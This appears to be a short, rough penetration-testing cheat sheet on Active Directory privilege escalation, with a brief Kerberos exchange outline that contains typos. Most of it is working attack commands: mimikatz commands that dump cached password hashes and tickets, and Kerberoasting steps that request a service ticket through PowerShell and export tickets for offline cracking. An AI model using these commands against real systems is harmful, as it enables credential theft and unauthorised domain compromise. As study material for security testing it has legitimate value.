 ```
TGT_REQ
TGT_REP
	session key -> encrypted -> password hash of user
	TGT -> encrypted -> password hash of KRBTG

TGS_REQ
TGS_REP
	session key -> encrypted -> password hash of secert key (TGT)
	TGS - encrypted -> password hash of SPN

AP_REQ
AP_REP
```



## DOMAIN PRIVILEGE ESCALATION TECHNIQUES

### CACHED AD CREDENTIALS 

```
privilege::debug (enable SetDebug privilege)
sekurlsa::logonpasswords (Show password hashes)
sekurlsa::tickets (Show tickets)
```

### KERBORASTING / SERVICE ACCOUNT ATTACKS

> domain client machine compromise

> privilege escalate

> domain machine: cmd/powershell/GUI

+ SCENARIO.1

> DOMAIN CLIENT ACTIVITIES

> powershell (runas administrator)

```
Add-Type -AssemblyName System.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'FRIENDS-DC/svc_backup.FRIENDS.local:1337'
```
```
klist
```
```
mimikatz.exe
kerberos::list
kerberos::list /export
```
